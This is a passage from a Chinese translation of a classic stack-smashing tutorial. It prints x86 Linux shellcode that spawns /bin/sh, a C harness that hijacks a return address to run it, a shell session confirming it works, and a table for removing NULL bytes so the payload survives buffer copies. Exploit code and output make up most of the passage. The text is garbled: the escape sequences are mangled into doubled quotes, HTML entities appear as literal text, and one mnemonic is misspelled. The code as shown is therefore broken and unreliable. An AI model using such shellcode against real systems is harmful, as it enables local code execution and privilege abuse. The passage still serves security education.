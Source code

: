------------------------------------------------------------------------------

char shellcode[] =

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;""xeb"x2a"x5e"x89"x76"x08"xc6"x46"x07"x00"xc7"x46"x0c"x00"x00"x00"

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;""x00"xb8"x0b"x00"x00"x00"x89"xf3"x8d"x4e"x08"x8d"x56"x0c"xcd"x80"

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;""xb8"x01"x00"x00"x00"xbb"x00"x00"x00"x00"xcd"x80"xe8"xd1"xff"xff"

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;""xff"x2f"x62"x69"x6e"x2f"x73"x68"x00"x89"xec"x5d"xc3";

void main() {

&nbsp; &nbsp;int *ret;

&nbsp; &nbsp;ret = (int *)&amp;ret + 2;

&nbsp; &nbsp;(*ret) = (int)shellcode;

}

------------------------------------------------------------------------------

------------------------------------------------------------------------------
  
[aleph1]$ gcc -o testsc testsc.c
  
[aleph1]$ ./testsc

$ exit
  
[aleph1]$

------------------------------------------------------------------------------

&nbsp; &nbsp; 成了! 但是这里还有一个障碍, 在多数情况下, 我们都是试图使一个字符缓冲区溢出.

那么在我们shellcode中的任何NULL字节都会被认为是字符串的结尾, 复制工作就到此为

止了. 对于我们的破解工作来说, 在shellcode里不能有NULL字节. 下面来消除这些字节,

同时把代码精简一点.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;Problem instruction:&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;Substitute with:

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;--------------------------------------------------------

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;$0x0,0x7(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; xorl&nbsp; &nbsp;%eax,%eax

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;molv&nbsp; &nbsp;$0x0,0xc(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; movb&nbsp; &nbsp;%eax,0x7(%esi)

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;movl&nbsp; &nbsp;%eax,0xc(%esi)
